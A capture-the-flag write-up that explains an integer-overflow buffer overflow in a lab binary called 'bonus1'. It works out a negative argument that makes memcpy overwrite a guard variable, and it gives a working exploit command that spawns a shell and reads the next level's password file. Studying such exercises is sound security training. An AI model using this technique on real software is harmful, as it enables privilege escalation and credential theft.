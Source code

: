 # Bonus1 Exploit Guide

## Steps

### 1. Understand the Vulnerability

The binary `bonus1` has a vulnerability that allows a buffer overflow. We need to exploit this to execute a shell.

### 2. Analyze the Source Code

The key operations in the `main` function are:
- Convert the first argument to an integer using `atoi`.
- Check if the integer is less than or equal to 9.
- Copy the second argument to a buffer using `memcpy`.
- If the integer equals `0x574f4c46`, execute a shell.

### 3. Determine the Exploit Strategy

To exploit this, we need to:
- Use a negative number for the first argument that results in an overflow when multiplied by 4.
- Overwrite the buffer and the integer variable to trigger the shell execution.

### 4. Calculate the Appropriate Negative Value

We need the result of `num * 4` to overflow to 44 bytes, covering the 40-byte buffer plus 4 bytes to overwrite the integer.

1. **Determine the Overflow Calculation**:
    ```
    num * 4 = 44 - (UNSIGNED_INT_MAX + 1)
    num * 4 = 44 - 4294967296
    num * 4 = -4294967252
    num = -4294967252 / 4
    num = -1073741813
    ```

2. **Binary Representation Check**:
    - `-1073741813` in binary properly aligns to cause the overflow.

### 5. Craft the Exploit Command

1. **First Argument**:
    - Use `-1073741813` as the first argument.
2. **Second Argument**:
    - Construct a payload to fill the buffer and overwrite the integer.

```sh
./bonus1 -1073741813 $(python -c 'print "A" * 40 + "\x46\x4c\x4f\x57"')
```

- `-1073741813`: The calculated negative value.
- `$(python -c 'print "A" * 40 + "\x46\x4c\x4f\x57"')`: The payload to fill the buffer with 40 'A's and then `0x574f4c46` (little-endian) to overwrite the integer.

### 6. Execute the Exploit

Run the crafted payload:
```sh
./bonus1 -1073741813 $(python -c 'print "A" * 40 + "\x46\x4c\x4f\x57"')
```

### 7. Verify the Exploit

If successful, the command should trigger a shell:
```sh
$ whoami
bonus2
$ cat /home/user/bonus2/.pass
```
Retrieve the flag from the output.

### Summary

By carefully calculating the overflow value and crafting the payload, we exploit the buffer overflow vulnerability in `bonus1` to execute a shell and retrieve the necessary flag.